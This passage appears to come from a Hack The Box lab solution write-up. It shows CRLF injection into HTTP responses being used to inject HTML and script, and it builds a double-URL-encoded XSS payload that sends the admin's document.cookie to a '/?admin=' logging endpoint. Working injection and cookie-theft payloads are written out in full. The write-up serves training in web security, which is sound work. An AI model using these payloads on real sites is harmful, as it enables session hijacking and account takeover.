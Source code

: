 Code: http

```http
GET /?target=%0d%0aContent-Type:+text/html%0d%0a%0d%0a<html><script>alert("Injected+JS+in+body")</script></html> HTTP/1.1
```

![[HTB Solutions/CWEE/z. images/7d19d6aa51a93f058441a1585ab96943_MD5.jpg]]

Now, students need to steal the cookie of the admin user by coercing the admin into requesting the webpage `/?admin` with the document's cookie since that will report the cookie value in the report log over `http://STMIP:STMPO/log`. Students need to utilize [document.location](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) to send the cookie value to `/?admin=`:

Code: javascript

```javascript
<script>document.location='/?admin='+document.cookie;</script>
```

The resultant "issue URL" that will be sent for the admin becomes:

Code: shell

```shell
%0d%0aContent-Type: text/html%0d%0a%0d%0a<html><script>document.location='/?admin='+document.cookie;</script></html>
```

However, students need to keep in mind that there will be two requests until the desired XSS payload reaches the admin:

1. The request to `/?admin=` to report the "Issue URL" to the admin user; since the payload is contained within the `admin` GET parameter, students need to URL-encode special characters once.
2. The request to `/?target=` that students will report to the admin user in the `admin` GET parameter in the first request; since the payload is contained within the `target` GET parameter, students need to URL-encode special characters twice.

The special characters `CRLF` (i.e., `%0d%0a` --> `%250d%250a`, [Recipe](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)&input=JTBkJTBh)), white-space (i.e.,  --> `%2520`, [Recipe](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)URL_Encode\(true\)&input=IA)), equals symbol (i.e., `=` --> `%253D`, [Recipe](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)URL_Encode\(true\)&input=PQ)) and the plus symbol (i.e., `+` --> `%252B`, [Recipe](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)URL_Encode\(true\)&input=Kw)) need to be URL-encoded two times (except for `%0d%0a`, which needs to be URL-encoded only one time since it is already in URL-encoding), attaining the payload:

Code: http

```http
%250d%250aContent-Type:%2520text/html%250d%250a%250d%250a<html><script>document.location%253D'/?admin='%252Bdocument.cookie;</script></html>
```

At last, with the attained payload, students need to send it to the admin to inspect via the "Issue URL" form, making sure to set the payload after `/?target=`:

![[HTB Solutions/CWEE/z. images/0bfcba3791914c9d730a204e718e87ce_MD5.jpg]]
